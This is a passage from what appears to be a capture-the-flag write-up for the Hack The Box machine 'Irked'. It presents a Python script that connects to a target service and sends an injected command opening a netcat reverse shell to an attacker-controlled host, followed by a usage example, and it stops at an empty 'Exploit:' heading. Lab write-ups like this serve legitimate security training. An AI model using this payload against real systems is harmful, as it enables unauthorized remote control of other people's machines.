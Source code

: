 ```

So for the shell you can create a simple python script to get a shell:

```python
#!/usr/bin/env python3

import socket
import subprocess
import sys
import time

if len(sys.argv) != 5:
  print(f"Usage: {sys.argv[0]} [RHOST] [RPORT] [LHOST] [LPORT]")
  sys.exit()

RHOST, RPORT, LHOST, LPORT = sys.argv[1:]

print(f"[+] Connecting to {RHOST}:{RPORT}")
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

try:
  s.connect((RHOST, int(RPORT)))
except:
  print(f"[-] Error connecting to {RHOST}:{RPORT}")
  sys.exit(1)
s.recv(1000)

time.sleep(10)

print("[+] Sending the payload")
s.send(f"AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc {LHOST} {LPORT} >/tmp/f\n".encode())
s.close()
print("[+] Payload sent")

print("[!] Make sure to run the listener")

print("[+] Exit!")
```

Here is how to use it:

```
┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ chmod +x exploit.py

┌──(kali㉿kali)-[~/Desktop/HTB/Irked]
└─$ ./exploit.py                                    
Usage: ./exploit.py [RHOST] [RPORT] [LHOST] [LPORT]
```

Exploit:
